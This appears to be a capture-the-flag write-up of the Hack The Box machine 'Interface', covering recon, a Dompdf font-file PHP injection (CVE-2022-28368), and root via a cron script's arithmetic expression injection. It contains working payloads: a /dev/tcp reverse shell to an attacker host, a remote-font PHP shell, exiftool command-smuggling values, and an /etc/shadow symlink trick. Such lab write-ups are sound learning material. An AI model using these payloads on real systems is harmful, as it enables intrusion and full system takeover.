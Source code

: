 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

### 💡 Summary

- Initial foothold via **Dompdf** file-write vulnerability (CVE-2022-28368) 📝
- RCE achieved through a poisoned font file + PHP shell 💥
- Privilege escalation through **arithmetic expression injection** in a Bash cleanup script 👑
- Alternative root path using symbolic links to overwrite `/etc/shadow` (patched) 🔒

---

## 🕵️ Recon

### 🔎 Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.200
nmap -p 22,80 -sCV 10.10.11.200
```
**Findings:**
- Open ports: `22` (SSH) and `80` (HTTP)
- Ubuntu 18.04
- Web server: nginx + Next.js (frontend React)

---

## 🌐 Web Enumeration

### Interface.htb
- Only shows "Site under maintenance" 🛠️
- Headers include: `X-Powered-By: Next.js`
- CSP reveals subdomain: `prd.m.rendering-api.interface.htb`

### Subdomain Discovery
```bash
ffuf -u http://10.10.11.200 -H "Host: FUZZ.interface.htb" -w subdomains-top1million-5000.txt --fs 6359
```

Add to `/etc/hosts`:
```
10.10.11.200 interface.htb prd.m.rendering-api.interface.htb
```

### prd.m.rendering-api.interface.htb
- Returns `File not found.` on `/`
- Directory brute force with feroxbuster reveals `/vendor` with `403`

### Deeper Enumeration
```bash
feroxbuster -u http://prd.m.rendering-api.interface.htb/vendor/
```
Reveals:
- `/vendor/dompdf`
- `/vendor/composer`

Suggests this is a **PHP app** using **dompdf** 🧾

---

## 🔍 API Discovery

### Brute Forcing `/api` endpoint
```bash
ffuf -u http://prd.m.rendering-api.interface.htb/FUZZ -w raft-medium-words.txt -mc all -fs 0
```
Finds `/api`, which returns:
```json
{"status":"404","status_text":"route not defined"}
```

Then brute force subroutes with POST:
```bash
ffuf -X POST -u http://prd.m.rendering-api.interface.htb/api/FUZZ -w raft-medium-words.txt -mc all -fs 50
```
Finds: `/api/html2pdf`

### PDF Generator (Dompdf)
- Vulnerable to CVE-2022-28368
- `html` parameter used to render user-supplied HTML to PDF

---

## 🎯 Initial Foothold via RCE

### Exploit Strategy:
1. Use **CSS `@font-face`** to reference a remote `.php` file pretending to be a font file
2. Inject PHP code inside font file comments
3. Trigger dompdf to cache the file on the server
4. Access the cached file directly to trigger the PHP shell

### Key Payloads
```php
@font-face {
  font-family:'exploitfont';
  src:url('http://<attacker-ip>/exploit_font.php');
}
```
```bash
echo -n "http://<attacker-ip>/exploit_font.php" | md5sum
# Use hash to build path:
/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_<hash>.php
```
Execute commands:
```bash
curl -s --data-urlencode 'cmd=id' http://target/fonts/exploitfont_normal_<hash>.php
```
Reverse shell:
```bash
cmd=bash -c "bash -i >& /dev/tcp/<attacker-ip>/443 0>&1"
```

Shell acquired as: `www-data`

---

## 🧱 Privilege Escalation - Arithmetic Expression Injection

### Enumeration with pspy
Reveals cron job:
```bash
/usr/local/sbin/cleancache.sh (every 2 min)
```
Script content:
```bash
meta_producer=$(exiftool -Producer "$file")
if [[ "$meta_producer" -eq "dompdf" ]]; then
  rm "$file"
fi
```

### Exploiting `-eq` with malicious Producer:
```bash
exiftool -Producer='x[$(touch${IFS}/tmp/rootshell)]' /tmp/testfile
```
Root-created `/tmp/rootshell` appears after 2 mins ✅

### Full Root Shell
```bash
exiftool -Producer='x[$(cp${IFS}/bin/bash${IFS}/tmp/bashroot;chmod${IFS}4777${IFS}/tmp/bashroot)]' /tmp/triggerfile
```
```bash
/tmp/bashroot -p
```

You are now root! 🎉

---

## 🔓 Beyond Root - Symbolic Link Abuse (Patched)

### Original cron:
```bash
cp /root/font_cache/dompdf_font_family_cache.php /var/www/.../fonts/dompdf_font_family_cache.php
chown www-data ...
```
### Exploit:
- Replace `dompdf_font_family_cache.php` with symlink to `/etc/shadow`
- Wait for cron to overwrite and change ownership
- Insert malicious root hash
- `su -` as root using new password 🔑

**Patched version** copies to safe path and chowns first, preventing symlink attacks 🛡️

---

## 📚 Learnings
- dompdf vulnerabilities and font injection are a valid RCE vector
- Bash's `[[ var -eq string ]]` quirks can be weaponized
- Cron jobs are powerful escalation opportunities when scripts are sloppy
- Symbolic links are dangerous when blindly used with root privileges

---

If you liked this write-up, check out more from [0xdf](https://0xdf.gitlab.io)! 🧠🖥️🍩

